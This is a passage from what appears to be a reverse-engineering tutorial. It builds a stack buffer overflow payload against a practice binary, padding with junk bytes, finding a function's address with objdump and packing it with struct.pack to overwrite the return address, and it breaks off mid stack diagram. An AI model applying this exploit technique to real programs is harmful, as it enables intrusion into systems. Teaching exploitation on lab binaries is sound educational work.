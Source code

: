     payload = bytes()

    # Initial Payload
    # Gap between point A and point B
    payload = b'a' * junk_length
	```

2. Now, we first want to execute ```inst1()```. So, we put it's address in the payload. 

* Finding ```inst1()```'s address. 

    ```
    rev_eng_series/post_17}=)> objdump -Mintel -d code2 | grep inst1
    0000000000400526 <inst1>:
    ```
* ```inst1()```'s address is **0x0000000000400526**. 

	```python
    # inst1()'s address
    inst1_address = 0x0000000000400526
    # inst1()'s address in little-endian byte order.
    # For 64-bit executables, 
    payload += struct.pack('<Q', inst1_address)

    # For 32-bit executables, 
    # payload += struct.pack('<I', inst1_address)
	```

* At this point, the Return Address of ```func()``` is overwritten by ```inst1()```'s address. 

3. We have to find out how do we execute rest of the functions. 

The following is how the stack looks like: 

	```
	| inst1()'s address | <----- rsp
    |    Some crap      |
    |                   |
    |                   |
    |                   |
	